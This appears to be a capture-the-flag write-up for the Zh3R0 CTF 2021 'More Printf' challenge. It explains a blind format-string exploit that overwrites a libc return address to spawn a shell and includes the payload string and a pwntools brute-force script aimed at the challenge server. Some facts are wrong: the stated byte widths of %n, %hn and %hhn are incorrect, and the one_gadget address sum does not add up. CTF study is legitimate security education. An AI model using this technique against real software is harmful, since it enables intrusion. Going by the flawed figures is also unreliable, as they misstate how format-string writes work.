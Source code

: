 ```yaml
---
layout: post
title: Zh3R0 CTF 2021
categories: [ctf, pwn]
---
```


## Pwn: More Printf

### Source

```cpp
/* gcc -o more-printf -fstack-protector-all more-printf.c */
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

FILE *fp;
char *buffer;
uint64_t i = 0x8d9e7e558877;

_Noreturn main() {
  /* Just to save some of your time */
  uint64_t *p;
  p = &p;

  /* Chall */
  setbuf(stdin, 0);
  buffer = (char *)malloc(0x20 + 1);
  fp = fopen("/dev/null", "wb");
  fgets(buffer, 0x1f, stdin);
  if (i != 0x8d9e7e558877) {
    _exit(1337);
  } else {
    i = 1337;
    fprintf(fp, buffer);
    _exit(1);
  }
}
```

We have a unique Format String bug in the software using `fprintf`. As all output is written to `/dev/null`, this is essentially a blind attack. In addition, there exists a "canary" variable `i` that is overwritten before our `fprintf`, which prevents us from simply returning to the main function to read in another input. However, returning after the if/else check meant that we're unable to change our format string buffer. This effectively meant that we have to get a shell with our first try in what I would call a "speak now or forever hold your peace" scenario.

To have a look at what our stack look like before the format string attack is executed, we can simply issue a breakpoint before the `_IO_vprintf_internal` is called using `b *fprintf+143`.

This is what the stack looked like for me:

![GEF Telescope 40 Before FSB](/public/zh3r0-more-printf/01_telescope_40_before.png)

We can redirect the output to stdout using `set $rdi = _IO_stdout`. After that, stepping over the function call reveals that the first 10 address leaks using multiple `%p` refers to addresses at:

- +0x0030 [Our format string in the heap]
- +0x0038 [Address in glibc for `__GI__libc_read+17`]
- +0x0040
- +0x0048
- +0x00e0 [The `p = &p` instruction since the value points to itself]
- +0x00e8
- +0x00f0 [Address for `__libc_csu_init`] 
- +0x00f8 [Address for `__libc_start_main+231`]
- +0x0100
- +0x0108 [Address on the stack]

What's interesting is the address at `+0x0038` which is the address for `__GI__libc_read+17`. We can confirm this in GDB:

![GEF __GI__libc_read+17](/public/zh3r0-more-printf/02_libc_read.png)

My intuition tells me that this is roughly the call graph:

```
fprintf()
  \_ calls _IO_vprintf_internal()
    \_ calls _GI_libc_read() (To parse the format string)
```

As it is an address in libc, if we're able to overwrite the lower half of the address with the location of `one_gadget`, we would have succeed in getting a shell without the need to leak libc addresses in one try. Sounds like a plan. But how are we supposed to obtain the location of `one_gadget` affected by ASLR? This is where the 8th stack position (`__libc_start_main+231`) comes into play. As `__libc_start_main+231` is accessible to us, we can simply load its value for use in our format string. Behold, the format specifier width field `%*d`. According to the definition in Wikipedia,

> The Width field specifies a minimum number of characters to output, and is typically used to pad fixed-width fields in tabulated output, where the fields would otherwise be smaller, although it does not cause truncation of oversized fields.
>
> The width field may be omitted, or a numeric integer value, or a dynamic value when passed as another argument when indicated by an asterisk *. For example, `printf("%*d", 5, 10)` will result in `   10` being printed, with a total width of 5 characters. 

This is great and all, but what makes it interesting is the fact that you can simply use values in other stack positions. This means in our case, `%*8$d` has the same effect as `%140737347861495d` (`0x7ffff7a03bf7 = 140737347861495`). With that, all that's left between us and victory are some basic arithmetic and a little bit of RNG luck.

![GEF vmmap](/public/zh3r0-more-printf/03_vmmap.png)

Looking at the memory map, we learn that the base address of libc is `0x7ffff79e2000`.

![one_gadget libc-2.27.so](/public/zh3r0-more-printf/04_one_gadget.png)

Looking at the one gadgets available, we select the first gadget at `0x4f3d5` as it has the easiest constraints amongst them. This brings our effective one gadget address to be `0x7ffff79e2000 + 0x4f3d5 = 0x7fff08629be7`.

Now that we have all the addresses we need, it's time to construct our format string payload. We'll kindly make use of the `p = &p` instruction that's available at address `0x7fffffffe3b0` (5th stack position) that's referencing itself to point to `0x7fffffffe308` (2nd stack position). Afterwards, any writes to the 5th stack position will effectively overwrite the value at the 2nd stack position. As the `$` positional argument in the format will copy the stack to an internal buffer, we should use it sparingly.

There are 3 modes of `%n` writes: `%n` which overwrites 8 bytes, `%hn` which overwrites 4 bytes, and `hhn` which overwrites 2 bytes. Taking ASLR into account, we'll use `%hhn` to keep our write small and overwrite the last 2 bytes to `08`. This is what we have so far:

```
%c%c%c%5c%hhn
```

Next, we need to print some padding the length of the value of `__libc_start_main+231`. This changes our format string to:

```
%c%c%c%5c%hhn%*8$d
```

This will print `8 + 0x7ffff7a03bf7` bytes. To increase the printed bytes up to `0x7fff08629be7`, we'll need to print another `0x7fff08629be7 - 0x7ffff7a03bf7 - 8 = 186326` bytes. Don't worry if the padding is very long; as we're simply writing to `/dev/null`, printing will be relatively quick. Our final format string looks like this:

```
%c%c%c%5c%hhn%*8$d%186326c%5$n
```

This is what the stack looks like after the format string has ran:

![GEF Telescope 40 After FSB](/public/zh3r0-more-printf/05_telescope_40_after.png)

Note that we're using `%n` in our 2nd write, and since only the last 3 nibbles of an address is deterministic, it's up to the power of RNG to help us since our debugging environment has ASLR turned off for purposes of developing the exploit. Luckily, it's only `1 in 32` chance according to the challenge author which can be bruteforced quickly on a modern computer.

![Flag](/public/zh3r0-more-printf/06_flag.png)

### Takeaways

- Using `%*d` to use another libc address then adding a static offset to one gadget overcomes the lack of any output for leaking libc addresses. 

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

num_of_tries = 0
context.log_level = 'error'
while True:
    try:
        if args.REMOTE:
            io = remote('pwn.zh3r0.cf', 2222)
        else:
            elf = context.binary = ELF('./more-printf')
            io = elf.process()

        num_of_tries += 1

        io.sendline('%c%c%c%5c%hhn%*8$d%186326c%5$n')
        io.sendline('cat flag')
        io.unrecv(io.recvn(1, timeout=3))

        print(f"Got shell after {num_of_tries} tries")
        io.interactive()
    except EOFError:
        pass
```
